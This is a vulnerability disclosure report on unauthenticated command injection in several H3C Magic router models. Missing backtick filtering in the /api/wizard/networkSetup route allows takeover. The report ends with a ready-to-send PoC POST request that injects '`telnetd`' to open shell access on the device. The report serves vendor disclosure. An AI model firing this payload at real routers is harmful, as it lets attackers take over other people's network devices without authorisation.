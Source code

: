 ## Information

**Vendor of the products:** H3C Technologies Co., Ltd.

**Vendor's website:** https://www.h3c.com/

**Reported by:** Guan Qing Wen(2144987805@qq.com)

**Affected products:** H3C Magic NX15\H3C NX400\H3C Magic R3010\H3C Magic BE18000\H3C Magic NX30 Pro

**Affected firmware version:** <=V100R014 (Taking NX15 as an example.)

**Firmware download address:** [H3C NX15V100R014](https://www.h3c.com/cn/d_202409/2263952_30005_0.htm)

## Overview

在 `H3C` 的 `Magic` 系列产品中 `H3C Magic NX15\H3C NX400\H3C Magic R3010\H3C Magic BE18000\H3C Magic NX30 Pro` ，允许攻击者在未授权情况下向 `/api/wizard/networkSetup` 路由发送构造的特定 `POST` 数据包，实现获取设备最高权限。

## Vulnerability details

在 `api` 文件中的 `FCGI_WizardProcess` 函数存在路由 `/wizard/networkSetup` ，可以触发对应的处理函数

![image-20250314125647586](https://blog-1311372141.cos.ap-nanjing.myqcloud.com/images/image-20250314125647586.png)

因为危险字符忘记过滤反引号，导致命令注入

![image-20250314125713058](https://blog-1311372141.cos.ap-nanjing.myqcloud.com/images/image-20250314125713058.png)

## Poc

```
POST /api/wizard/networkSetup HTTP/1.1
Host: 192.168.124.1
Content-Length: 11
Accept-Language: en-US,en;q=0.9
Accept: application/json, text/plain, */*
Content-Type: application/json;charset=UTF-8
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Origin: http://192.168.124.1
Referer: http://192.168.124.1/home
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

'`telnetd`'
```

